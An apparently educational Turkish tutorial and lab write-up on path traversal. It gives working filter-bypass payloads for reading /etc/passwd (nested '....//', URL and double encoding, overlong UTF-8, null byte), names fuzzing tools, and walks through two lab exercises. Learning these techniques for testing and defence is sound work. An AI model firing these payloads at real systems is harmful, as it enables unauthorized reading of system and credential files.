





# Sömürü ve Filtre Atlatma Teknikleri

Geliştiriciler `../` dizilerini engellemeye çalışır, ancak bu korumalar çoğu zaman eksiktir. Aşağıdaki teknikler yaygın filtreleri atlatmak için kullanılır.

## 1. Temel Traversal

```
file=../../../../etc/passwd
```

## 2. Absolute Path (mutlak yol) ile Atlatma

Uygulama yalnızca `../` dizilerini kaldırıyorsa, hiç traversal kullanmadan doğrudan mutlak yol denenebilir:

```
file=/etc/passwd
```

## 3. Base Folder Zorunluluğunu Atlatma

Uygulama, girdinin belli bir kök klasörle **başlamasını** bekliyorsa, o klasörü verip ardından traversal eklenir:

```
file=/var/www/images/../../../etc/passwd
```

## 4. Nested Traversal Filtreleri Atlatma

Filtre `../` dizisini yalnızca **bir kez** ve özyinelemesiz (non-recursive) siliyorsa, iç içe dizi kullanılır. Filtre içteki `../`'yi silince geriye yine geçerli bir `../` kalır:

```
file=....//....//....//etc/passwd
file=....\/....\/....\/etc/passwd
```

`....//` → filtre ortadaki `../`'yi silince → `../` olur.

## 5. URL Encoding

`../` karakterleri URL kodlamasıyla gizlenir. Sunucu isteği çözünce (decode) traversal geri gelir:

| Karakter | Encoding |
|---|---|
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |
| `../` | `%2e%2e%2f` |

```
file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

## 6. Double URL Encoding

Bazı sistemler girdiyi iki kez decode eder ya da proxy ile uygulama farklı katmanlarda çözer. Filtre `%2e%2e%2f`'i engelliyorsa çift kodlama denenir:

```
../  →  %2e%2e%2f  →  %252e%252e%252f
```

```
file=%252e%252e%252fetc/passwd
```

Sunucu birinci decode'da `%252e` → `%2e`, ikinci decode'da `%2e` → `.` yaparak filtreyi atlatır (CWE-174: Double Decoding).

## 7. Standart Dışı / Overlong Kodlamalar

Bazı sunucular UTF-8 overlong veya Unicode karşılıklarını `/` olarak yorumlar:

```
..%c0%af        →  ../
..%ef%bc%8f     →  ../
```

## 8. Null Byte Injection (`%00`)

Uygulama, dosya adının belli bir uzantıyla **bitmesini** şart koşuyorsa (ör. `.png`), eski dillerde null byte ile yol erken sonlandırılabilir:

```
file=../../../etc/passwd%00.png
```

> **Not:** Null byte tekniği çoğunlukla **eski (legacy)** uygulamalarda çalışır. PHP 5.3.4+ ve modern dillerde bu davranış düzeltilmiştir; yine de eski sistemlerde test edilmeye değer.

## Tespit ve Test Araçları

- **Burp Suite** — Repeater ile manuel test; Intruder'ın hazır **"Fuzzing - path traversal"** payload listesi (Pro).
- **OWASP ZAP** — açık kaynak tarayıcı, traversal dahil geniş zafiyet taraması.
- **DotDotPwn** — özel olarak directory traversal fuzzing için geliştirilmiş araç.
- **Nikto / Nuclei / ffuf** — bilinen traversal path'lerini ve şablonlarını tarama.

## Lab

### Absolute Path Bypass
Bu labda amaç `/etc/passwd` dosyasını okumak. Öncelikle travelsal yapılacak parametre tespit edildi.



Bu parametre `../` ile manipüle edilerek dosya okunmaya çalışıldı ancak path bulunamadı.



Doğrudan `/etc/passwd` dosyası okunmaya çalışıldı ve başarıyla içerik listelendi.


### Non-Recursive Filtreleme Bypass
Bir önceki lab'da olduğu gibi zafiyetli parametre tespit edildi. Ardından `../` ile path traversal denendi.


Başarısız sonuç alınınca `../` dizilerinin kaldırıldığı gözlemlendi ve tekrarlı bir şekilde bu kaldırma işlemi yapılmama ihtimaline karşın `....//` şeklinde istek tekardan manipüle edildi ve `/etc/passwd` dosyasının okundu.

